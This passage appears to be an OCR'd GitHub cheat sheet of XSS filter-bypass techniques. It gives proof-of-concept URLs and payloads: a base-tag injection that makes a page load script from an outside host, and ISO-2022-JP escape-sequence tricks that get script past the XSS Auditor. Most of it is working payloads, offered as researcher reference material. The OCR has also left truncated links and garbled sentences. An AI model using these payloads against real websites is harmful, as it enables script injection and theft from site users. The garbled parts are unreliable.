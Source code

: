 1. There is XSS that can write arbitrary tags
2. immediately followed by whitespace or `'"`after
3. After that there is a part that loads the script with a relative URL

PoC:

[https://vulnerabledoma.in/bypass/text?type=9&q=%3Cbase%20href=//cors.l0.cm/](https://vulnerabledoma.in/bypass/text?type=9&q=

```
<div><base href=//cors.l0.cm/</div><script src=/test.js></script>
```

### Use of ISO-2022-JP escape sequences

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. There is no character code specified on the page

supplement:

In ISO-2022-JP HTML, `[0x1B](B`byte sequences such as , `[0x1B](H`, `[0x1B](J`are ignored. You can bypass this by putting it between react strings. Also, in Chrome/Safari, `[0x1B]$@[0x0A]`byte strings such as are `[0x0A]`treated in the same way as, but the XSS Auditor cannot interpret them well and causes a bypass.

Reference URL:

- https://bugs.chromium.org/p/chromium/issues/detail?id=114941
- https://l0.cm/encodings/test3/

PoC:

- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Csvg%20o%1B(Bnload=alert(1)%3E](https://vulnerabledoma.in/bypass/text?q=)
- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Csvg%20o%1B(Hnload=alert(1)%3E](https://vulnerabledoma.in/bypass/text?q=)
- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Csvg%20o%1B(Jnload=alert(1)%3E](https://vulnerabledoma.in/bypass/text?q=)

```
<meta charset=iso-2022-jp><svg o[0x1B](Bnload=alert(1)>
```

(*Because the $ symbol is arbitrarily encoded and does not work as intended, the redirect is sandwiched by a method that includes a $.)

- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$@%0A%3C/script%3E](https://tinyurl.com/l9mxds2)
- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$B%0A%3C/script%3E](https://tinyurl.com/ml23lh9)
- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B(I%0A%3C/script%3E](https://vulnerabledoma.in/bypass/text?q=alert(1)(I )
- [https://vulnerabledoma.in/bypass/text?q=%3Cmeta%20charset=iso-2022-jp%3E%3Cscript%3Ealert(1)%1B$@%0D%3C/script%3E](https://tinyurl.com/lfks6v6)

```
<meta charset=iso-2022-jp><script>alert(1)[0x1B]$@[0x0A]</script>
```
